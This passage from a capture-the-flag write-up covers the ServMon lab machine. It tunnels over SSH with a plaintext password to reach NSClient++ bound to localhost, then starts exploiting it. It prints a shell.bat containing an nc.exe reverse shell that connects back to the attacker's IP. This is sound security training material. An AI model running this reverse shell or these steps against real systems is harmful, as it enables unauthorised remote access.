 ### Setup Tunnel

If I try to log in from `https://10.10.10.184:8443`, it blocks me:

![](/img/image-20200413103144194.png)

Towards the top of `nsclient.ini`, there's this:



    ; Undocumented key                                                                                  
    allowed hosts = 127.0.0.1 



I need to come from localhost. I'll re-SSH with a tunnel that runs from
my localhost:8443 to localhost on ServMon:8443:



    root@kali# sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443                                                                                                            [1/1]
    Microsoft Windows [Version 10.0.18363.752]          
    (c) 2019 Microsoft Corporation. All rights reserved.
                                                              
    nadine@SERVMON C:\Users\Nadine>



### Exploit

Now I can access `https://127.0.0.1:8443/`, and login with the password:

![](/img/image-20200413103430765.png)

To get execution, the
[exploit-db](https://www.exploit-db.com/exploits/46802) write-up was not
sure helpful, and the web interface was really frustrating. It was very
unstable, and made trouble shooting incredibly difficult.

I was able to get success by taking the following steps based on [How To
Run Commands](https://docs.nsclient.org/howto/run_commands/) in the
NSClient documentation. The steps are for directly interacting with the
`nsclient.ini` file, but I eventually got a feel for how to use the web
interface to get the same results:

1.  Create `shell.bat`:

    <div>

    <div>

        \programdata\nc.exe 10.10.14.24 443 -e cmd

    </div>

    </div>

    This assumes that `nc.exe` is in `C:\programdata` (I will put it
    there) and it will connect back to me with a shell when run.
